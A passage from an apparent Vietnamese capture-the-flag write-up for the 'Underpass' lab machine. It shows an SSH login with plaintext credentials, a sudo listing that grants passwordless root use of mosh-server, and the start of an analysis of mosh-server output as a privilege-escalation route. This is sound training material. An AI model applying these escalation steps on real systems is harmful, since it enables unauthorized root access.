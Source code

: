 Đăng nhập với ssh thông qua người dùng `svcMosh:underwaterfriends`

```zsh
❯ ssh svcMosh@underpass.htb
...
svcMosh@underpass:~$ cat user.txt
7da53244e41...........211d851dd8
```
## <span style="color: red; font-weight: bold;">Shell as root</span>

### <span style="color: #3498eb;">Liệt kê quyền sudo</span>

Có thể chạy  `/usr/bin/mosh-server` không mật khẩu với `sudo`:

```zsh
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Đây chắc chắn là phương thức khai thác để nắm quyền `root`.
### <span style="color: #3498eb;">Check Mosh</span>

#### <span style="color: #ebe134;">Phân tích</span>

```zsh
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 Ris0qk5c5Skk4FIjZmWZFw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2840]

```

Đầu ra:

`MOSH CONNECT 60001 Ris0qk5c5Skk4FIjZmWZFw`:

`MOSH CONNECT` cho biết một phiên `Mosh` đang bắt đầu.
`60001` có lẽ là cổng UDP mà máy chủ đang lắng nghe kết nối từ khách hàng.    
`Ris0qk5c5Skk4FIjZmWZFw` chắc chắn là một mã định danh phiên, giúp nhận dạng duy nhất phiên Mosh này.
